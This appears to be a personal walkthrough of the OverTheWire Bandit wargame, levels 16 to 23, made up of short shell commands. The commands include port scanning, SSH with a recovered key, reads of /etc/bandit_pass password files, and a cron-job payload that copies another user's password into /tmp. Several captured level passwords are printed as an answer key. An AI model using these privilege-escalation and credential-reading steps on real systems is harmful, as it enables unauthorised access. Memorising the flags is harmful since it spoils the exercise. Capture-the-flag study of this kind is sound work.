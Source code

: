 # bandit16
```bash
nmap --script ssl-enum-ciphers -p 31000-32000 localhost
openssl s_client -connect localhost:31790
(get SSH key)
ssh bandit14@bandit.labs.overthewire.org -p 2220 -i id_rsa cat /etc/bandit_pass/bandit17
```

# bandit17
```bash
diff passwords.old passwords.new
```

# bandit18
```bash
ssh ... cat readme
```

# bandit19
```bash
./bandit20-do cat /etc/bandit_pass/bandit20
```

# bandit20
```bash
nc -nlvp 3000
./suconnect 3000
```

# bandit21
```bash
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

# bandit22
```bash
cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
```

# bandit23
```bash
bandit23@bandit:~$ cd /tmp/bandito
bandit23@bandit:/tmp/bandito$ cat > payload.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandito/flag
bandit23@bandit:/tmp/bandito$ chmod +x payload.sh
bandit23@bandit:/tmp/bandito$ cp payload.sh /var/spool/bandit24/
bandit23@bandit:/tmp/bandito$ ls
payload.sh
bandit23@bandit:/tmp/bandito$ ls
flag  payload.sh
bandit23@bandit:/tmp/bandito$ cat flag
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
